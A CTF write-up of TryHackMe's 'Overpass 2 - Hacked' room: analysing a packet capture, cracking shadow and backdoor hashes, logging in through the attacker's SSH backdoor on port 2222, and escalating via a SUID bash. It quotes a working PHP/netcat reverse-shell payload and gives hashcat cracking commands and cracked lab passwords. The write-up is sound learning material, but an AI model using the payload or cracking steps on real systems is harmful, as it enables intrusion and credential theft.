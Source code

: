 ```yaml
---
title: Overpass 2 - Hacked (Try Hack Me)
author: Robin Goyal
date: 2021-08-29 13:25 -0400
categories: [Cybersecurity, Writeups]
tags: [thm, ctf, writeup]
hidden: true
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/96141387d9d4a22658f8db0ada67d62d.png
---
```


I am currently in the process of completing these boxes on Try Hack Me again in an effort to document my experience, reinforce my knowledge of the topics, and improve my ability to concisely communicate the pentest lifecycle.

## Forensics

The first few tasks in this room revolve around analysis of a PCAP file. This PCAP file contains a network traffic capture as to how the attacker entered the room and left a backdoor.

### Reverse Shell

The first few packets contain some normal HTTP traffic to a web server including a GET request to /development.

![get request](/assets/img/posts/thm-overpass-2/get-request.jpg)

The next TCP stream contains a POST request to /development with an upload.php file that looks like a reverse shell payload.

![upload](/assets/img/posts/thm-overpass-2/upload.jpg)

The payload is `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

This payload contains the IP address and port of the listening host for the reverse shell. If we apply a display filter to the PCAP of `tcp.port == 4242`, we can quickly find the communication between the attacker's reverse shell and the system.

![reverse shell](/assets/img/posts/thm-overpass-2/reverse-shell.jpg)

I've shortened the output as the stream is fairly long but this stream contains the password for the user james, an output of the /etc/shadow file, and a backdoor that the attacker left behind.

### Password Cracking

We already have the password for the user james, `whatevernoteartinstant` but this password did not work for the SSH service on port 22. However, we have not yet enumerated the target machine so maybe that SSH service is not even listening? We shall check that out after once we finish analyzing this PCAP file.

Let's try to crack these passwords that we found in the packet capture.

![jtr](/assets/img/posts/thm-overpass-2/john.jpg)

So 4 of the 5 passwords were crackable!

```
bee: secret12
szymex: abcd123
muirland: 1qaz2wsx
paradox: secuirty3
```

### Backdoor

Now, let's check out the backdoor!
Going to the GitHub repository that maintains the backdoor, there are a few pieces of information that we can use to our advantage.

In the file main.go, the salt is present along with the default hash. However, the attacker used his own hash that is present in the packet capture file. Together, we might be able to find the password associated with that hash!

Hash: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`
Salt: `1c362db832f3f864c8c2fe05f2002a05`

Saving the above info in the format `hash:salt` and using hashcat, we found the password to be `november16`.

![hashcat](/assets/img/posts/thm-overpass-2/hashcat.jpg)

## Initial Foothold

From information in the packet capture, the backdoor SSH service is listening on port 2222 under the user james and we can provide the password that we cracked using hashcat.

`ssh james@10.10.125.145 -p 2222`

Success! We got access to the system as james. It looks like that the original password that james had `whatevernoteartinstant` does not work as the attacker may have modified it.

![user flag](/assets/img/posts/thm-overpass-2/user-flag.jpg)

Navigating to james' home directory, the user.txt flag is present.

## Privilege Escalation

It also looks like the attacker left a hidden backdoor file that would escalate his privileges to root.

![priv esc](/assets/img/posts/thm-overpass-2/priv-esc.jpg)

This file looks like it is just the bash binary but with the SUID bit enabled. Performing a diff on this file with the /bin/bash default binary shows that they are the exact same.

Therefore, we should be able to escalate our privileges by executing the SUID binary with the `-p` flag.

![root flag](/assets/img/posts/thm-overpass-2/root-flag.jpg)

## Useful Commands

### Cracking $6$ Linux Shadow Hashes

`hashcat -m 1800 -a 0 -o found.txt passwords.txt /usr/share/setoolkit/src/fasttrack/wordlist.txt`

### Cracking SHA512 with Salt and Hash

`hashcat -m 1710 -a 0 crackme.txt /usr/share/wordlists/rockyou.txt`

For the above mode, save the crackme.txt file as `hash:salt`.

## Reflection

This room is definitely one of my favorite so far because of how unique it is. The first half is focused on forensic analysis of a PCAP file and exploiting the same backdoor that a hacker has left.

In this room, I learned about:
- PCAP analysis
- Cracking SHA512 (Unix + normal?) hashes with salts using Hashcat and John the Ripper
- Reading GO source code

This is definitely a fantastic room to improve your Wireshark and password cracking skills as well as your ability to piece together information to understand the full picture of the exploitation path.
